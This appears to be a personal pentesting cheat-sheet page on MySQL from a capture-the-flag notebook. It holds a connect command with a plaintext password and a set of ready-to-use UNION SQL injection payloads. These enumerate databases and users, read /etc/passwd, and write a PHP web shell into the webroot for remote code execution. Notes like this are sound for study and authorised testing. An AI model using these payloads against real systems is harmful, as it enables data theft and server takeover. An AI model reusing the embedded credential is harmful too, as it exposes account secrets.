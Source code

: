 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MySQL (3306)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##
```
{% endtab %}
{% endtabs %}

For an example of MySQL usage see [Devvortex](../../boxes/easy/devvortex.md).

## SQLi

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
On the below commands, the comment at the end includes a space: `-- ! The #` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

The `FILE` privilege is needed to **READ** files.

{% tabs %}
{% tab title="User (1)" %}
```bash
a' UNION SELECT 1, user(), 3, 4-- 
```
{% endtab %}

{% tab title="User (2)" %}
```bash
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```bash
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="144">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

For an example of a manual SQLi attack on a MySQL database, see [here](../../tl-dr/web/injections/sqli/in-band.md#union-attack).

## Resources

{% tabs %}
{% tab title="Man" %}
{% embed url="https://linux.die.net/man/1/mysql" %}
{% endtab %}

{% tab title="CheatSheet" %}
{% embed url="https://devhints.io/mysql" %}
{% endtab %}
{% endtabs %}
